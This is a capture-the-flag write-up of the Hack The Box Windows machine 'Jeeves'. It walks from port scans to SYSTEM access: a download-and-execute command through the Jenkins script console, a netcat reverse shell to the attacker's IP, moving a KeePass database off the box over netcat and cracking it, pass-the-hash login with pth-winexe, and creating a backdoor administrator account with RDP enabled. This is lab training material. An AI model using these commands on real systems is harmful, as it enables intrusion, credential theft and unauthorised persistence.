


---
search:
  exclude: true
---
# Jeeves Writeup

## Introduction :

Jeeves is a medium windows box that was released back in November 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -F 10.10.10.63 --top-ports 10000
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 11:01 GMT
      Nmap scan report for 10.10.10.63
      Host is up (0.10s latency).
      Not shown: 8316 filtered ports
      PORT      STATE SERVICE
      80/tcp    open  http
      135/tcp   open  msrpc
      445/tcp   open  microsoft-ds
      50000/tcp open  ibm-db2
    
      Nmap done: 1 IP address (1 host up) scanned in 27.37 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -sCV -p80,135,445,50000 10.10.10.63
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-07 11:01 GMT
      Nmap scan report for 10.10.10.63
      Host is up (0.11s latency).
    
      PORT      STATE SERVICE      VERSION
      80/tcp    open  http         Microsoft IIS httpd 10.0
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/10.0
      |_http-title: Ask Jeeves
      135/tcp   open  msrpc        Microsoft Windows RPC
      445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
      50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
      |_http-server-header: Jetty(9.4.z-SNAPSHOT)
      |_http-title: Error 404 Not Found
      Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: mean: 4h01m38s, deviation: 0s, median: 4h01m37s
      |_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
      | smb-security-mode:
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2020-03-07T15:03:42
      |_  start_date: 2020-03-06T19:38:44
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 48.29 seconds
    
    

## **Part 2 : Getting User Access**

our nmap scan picked up port 80 and 50000 running the http service so let's examine it with gobuster :

 
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → gobuster dir -u http://10.10.10.63/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.10.63:50000/
    [+] Threads:        50
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2020/03/07 11:09:18 Starting gobuster
    ===============================================================
    /askjeeves (Status: 302)
    ===============================================================
    2020/03/07 11:18:07 Finished
    ===============================================================
    

Gobuster didn't find many interesting apart from /askjeeves on port 50000 so let's check it out : 

Looking into script console we are able to get command execution : 

so let's try to upload a windows binary onto the machine using command execution and python's SimpleHTTPServer module : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → cd /usr/share/windows-binaries
    
    λ nihilist [ 10.10.14.11/23 ] [/usr/share/windows-binaries]
    → ls
    enumplus     fgdump  klogger.exe  nbtenum  plink.exe   vncviewer.exe  whoami.exe
    exe2bat.exe  fport   mbenum       nc.exe   radmin.exe  wget.exe
    
    λ nihilist [ 10.10.14.11/23 ] [/usr/share/windows-binaries]
    → python -m SimpleHTTPServer 8080
    Serving HTTP on 0.0.0.0 port 8080 ...
    

On jenkins's script console run the following : 
    
    
      def process = "powershell -command Invoke-WebRequest 'http://10.10.14.11:8080/nc.exe' -OutFile nc.exe".execute();
    println("${process.text}");
    

Once the netcat binary is on the box, we use it to get ourselves a reverse shell : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → nc -lvnp 9001
    
    
    
      def process = "powershell -command ./nc.exe 10.10.14.11 9001 -e cmd.exe".execute();
    println("${process.text}");
    

` 

And we get a reverse shell ! now let's see what we can do from here : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nc -lvnp 9001
      listening on [any] 9001 ...
      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.63] 49688
      Microsoft Windows [Version 10.0.10586]
      (c) 2015 Microsoft Corporation. All rights reserved.
    
      C:\Users\Administrator\.jenkins>whoami
      whoami
      jeeves\kohsuke
    
      C:\Users\Administrator\.jenkins>cd ..
      cd ..
      Access is denied.
    

Even though our reverse shell spawned us inside the administrator directory, we need to head over to our kohsuke directory 
    
    
    C:\Users\Administrator\.jenkins>cd C:\Users\kohsuke
    cd C:\Users\kohsuke
    
    C:\Users\kohsuke>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is BE50-B1C9
    
     Directory of C:\Users\kohsuke
    
    03/06/2020  11:44 PM    <****DIR>          .
    03/06/2020  11:44 PM <****DIR>          ..
    11/03/2017  09:51 PM <****DIR>          .groovy
    11/03/2017  10:15 PM <****DIR>          Contacts
    11/03/2017  10:19 PM <****DIR>          Desktop
    11/03/2017  10:18 PM <****DIR>          Documents
    11/03/2017  10:15 PM <****DIR>          Downloads
    03/04/2020  06:17 PM         1,230,604 epp
    11/03/2017  10:15 PM <****DIR>          Favorites
    11/03/2017  10:22 PM <****DIR>          Links
    03/06/2020  06:33 PM           136,192 ms16-032.exe
    11/03/2017  10:15 PM <****DIR>          Music
    11/03/2017  10:22 PM <****DIR>          OneDrive
    11/04/2017  02:10 AM <****DIR>          Pictures
    11/03/2017  10:15 PM <****DIR>          Saved Games
    11/03/2017  10:16 PM <****DIR>          Searches
    11/03/2017  10:15 PM <****DIR>          Videos
                   2 File(s)      1,366,796 bytes
                  15 Dir(s)   7,481,786,368 bytes free

Once inside the documents folder, we see a kdbx password database, so let's send it over to our local machine: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Jeeves]
    → nc -lvnp 9002 > CEH.kdbx
    listening on [any] 9002 ...
    
    
    
      C:\Users\kohsuke\Documents>C:\Users\Administrator\.jenkins\nc.exe 10.10.14.11 9002 < CEH.kdbx
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Jeeves]
      → nc -lvnp 9002 > CEH.kdbx
      listening on [any] 9002 ...
      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.63] 49689
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Jeeves]
      → file CEH.kdbx
      CEH.kdbx: Keepass password database 2.x KDBX
    

Now obviously we need to find the master password , to do so we can use keepass2john and rockyou.txt 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Jeeves]
    → keepass2john CEH.kdbx
    CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Jeeves]
    → keepass2john CEH.kdbx > hash.txt
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Jeeves]
    → john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    Using default input encoding: UTF-8
    

And we get the password moonshine1 , so let's use keepass to open it and see what the keepass database contains : 

 

so we'll use pth-winexe to get a shell connection to the machine using the hashed password we found : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Jeeves]
    → nano backup.pass
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Jeeves]
    → pth-winexe --user=jeeves/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe
    E_md4hash wrapper called.
    HASH PASS: Substituting user supplied NTLM HASH...
    Microsoft Windows [Version 10.0.10586]
    (c) 2015 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    nt authority\system
    

And here we see that we are logged in as nt authority\system
    
    
    
    C:\Windows\system32>systeminfo
    systeminfo
    
    Host Name:                 JEEVES
    OS Name:                   Microsoft Windows 10 Pro
    OS Version:                10.0.10586 N/A Build 10586
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:
    Product ID:                00331-20304-47406-AA297
    Original Install Date:     10/25/2017, 4:45:33 PM
    System Boot Time:          3/6/2020, 2:38:22 PM
    System Manufacturer:       VMware, Inc.
    System Model:              VMware7,1
    System Type:               x64-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
    BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             en-us;English (United States)
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
    Total Physical Memory:     2,047 MB
    Available Physical Memory: 1,030 MB
    Virtual Memory: Max Size:  2,687 MB
    Virtual Memory: Available: 1,580 MB
    Virtual Memory: In Use:    1,107 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    WORKGROUP
    Logon Server:              N/A
    Hotfix(s):                 10 Hotfix(s) Installed.
                               [01]: KB3150513
                               [02]: KB3161102
                               [03]: KB3172729
                               [04]: KB3173428
                               [05]: KB4021702
                               [06]: KB4022633
                               [07]: KB4033631
                               [08]: KB4035632
                               [09]: KB4051613
                               [10]: KB4041689
    Network Card(s):           1 NIC(s) Installed.
                               [01]: Intel(R) 82574L Gigabit Network Connection
                                     Connection Name: Ethernet0
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.63
    Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
    
    

Looking at systeminfo we see that we have a hotfixes are installed, so let's try and see if we can somehow vnc into the box, but first we need to first set up the vnc connection. 
    
    
      C:\Windows\system32>net user /add nihilist jeeved
      net user /add nihilist jeeved
      The command completed successfully.
    
      C:\Windows\system32>net localgroup administrators nihilist /add
    
      C:\Windows\system32>reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
      reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
      The operation completed successfully.
    
      C:\Windows\system32>netsh firewall set service remoteadmin enable
      netsh firewall set service remoteadmin enable
    
      IMPORTANT: Command executed successfully.
      However, "netsh firewall" is deprecated;
      use "netsh advfirewall firewall" instead.
      For more information on using "netsh advfirewall firewall" commands
      instead of "netsh firewall", see KB article 947709
      at http://go.microsoft.com/fwlink/?linkid=121488 .
    
      Ok.
    
    
      C:\Windows\system32>netsh firewall set service remotedesktop enable
      netsh firewall set service remotedesktop enable
    
      IMPORTANT: Command executed successfully.
      However, "netsh firewall" is deprecated;
      use "netsh advfirewall firewall" instead.
      For more information on using "netsh advfirewall firewall" commands
      instead of "netsh firewall", see KB article 947709
      at http://go.microsoft.com/fwlink/?linkid=121488 .
    
      Ok.
    
    

Here we created the user nihilist, added him to the administrator localgroup, started the rdp service, allowed RDP connections for the firewall, from there we just need to use rdesktop to connect to the account we created. 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → rdesktop 10.10.10.63
    

`  

Once we're connected, we head over to kohsuke's desktop to copy the user flag on our desktop, to be able to print it : 

## **Part 3 : Getting Root Access**

However, we can do the same thing to the user account ! Going in the administrator desktop and copying the only textfile on our desktop allows us to be able to read it, and we see that it's not our root flag YET, so we'll follow the advice the textfile gave us : 

 

And that's it ! we have been able to print out the root flag.

## **Conclusion**

Here we can see the progress graph :

